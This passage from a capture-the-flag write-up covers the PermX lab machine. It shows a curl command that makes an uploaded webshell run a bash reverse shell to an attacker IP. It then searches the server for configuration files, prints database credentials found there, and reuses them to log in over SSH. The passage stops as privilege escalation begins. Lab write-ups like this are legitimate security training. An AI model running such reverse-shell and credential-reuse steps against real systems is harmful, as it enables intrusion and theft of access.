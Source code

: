 
After everything was setup, I used `curl` to execute our reverse shell in our created webshell:
```shell
curl "http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=bash%20%2Dc%20%22%2Fbin%2Fbash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E151%2F5555%200%3E%261%22"
```

It worked and I got a reverse shell! 

Now lets get a foothold.

---
## Foothold
The next step is to start and try to find a config file with useful information (like credentials). We can list the `/home/` directory for existing home directories. There I found the home directory for the user `mtz`.

The. I used a couple of times the [find](../../../../tools/linux/find.md) command to search for interesting files (for example for `sql`, `conf`, `db`):
```shell
$ find /var/www/chamilo/ -type f -name 'configuration.php'

/var/www/chamilo/app/config/configuration.php
/var/www/chamilo/plugin/sepe/src/configuration.php
```
It worked and inside the `configuration.php` file, I found at the first few lines interesting database credentials:
```php
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
I tried to login with the user name`mtz` and the password `03F6lY3uXAP2bkW8` via `ssh`:
```shell
$ ssh mtz@permx.htb
Password: 03F6lY3uXAP2bkW8
```
And it worked!

We got our user flag!

---
## Privilege Escalation
Now the last step is to escalate our privileges and gain `root` access on the PermX machine.

Therefore my first step is to list all allowed commands that the user `mtz` can run with `sudo`:
```shell
$ sudo -l

(ALL : ALL) NOPASSWD: /opt/acl.sh
```
The output indicated, that we can run the script `/opt/acl.sh` with `root` privileges without a password.
